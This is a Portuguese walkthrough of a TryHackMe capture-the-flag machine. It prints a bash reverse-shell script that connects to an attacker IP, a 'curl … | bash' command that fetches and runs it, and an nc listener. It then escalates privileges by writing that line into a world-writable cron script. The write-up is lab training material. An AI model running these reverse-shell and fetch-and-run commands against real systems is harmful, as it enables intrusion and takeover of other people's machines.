 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## Oque é preciso entender para escalar o previlegio:
```txt
  ### -rwxrwxrwx  1 user-swagger user-swagger  184 Jun  1  2023 script.sh
  
  Fazendo a analine desse arquivo podemos ver que ele deu um chmod 777 
  ,que dizer que todos como root , todos os grupos e convidados tem acesso 
  a escrita execução e leitura do arquivo .sh que é um indicio que é por 
  aqui o caminho , ainda por cima o dono do arquivo é o swagger
      
  Mas tem o problema de estarmos com o usuario wwwdata que é limitado para escalar  
  previlegio de root precisamos do arquivo que tem previlegios do usuario swagger
  que é literalmente este arquivo

  Para Conseguir entrar no user dele podemos usar o script que ele criou contra ele mesmo
  e colocar um shell reverse para entrar da nossa maquina no perfil de usuario dele


  Conclusão: se para conseguir acesso precisamos de uma interação com o swagger e ocorre no arquivo
  a cada um minuto como a analise do chat gpt disse.
  então mudamos o conteudo o arquivo colocamos outro shel reverse de usuario agora
  
  1. colocar o comando do shell reverse já usado (exito) , dentro do script.sh
  comando ( curl http://192.168.100.168:8000/shell_2.sh | bash )
  2. executar enquanto o outro terminal escuta a shell
  
  
```
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
### por exemplo aqui se colocar-mos um bash dentro desse script.sh como nos colocamos com o usuario wwwdata , quando eu exe no arquivo vai me retornar como se fosse um shell reversa do propio usuario como na imagem acima
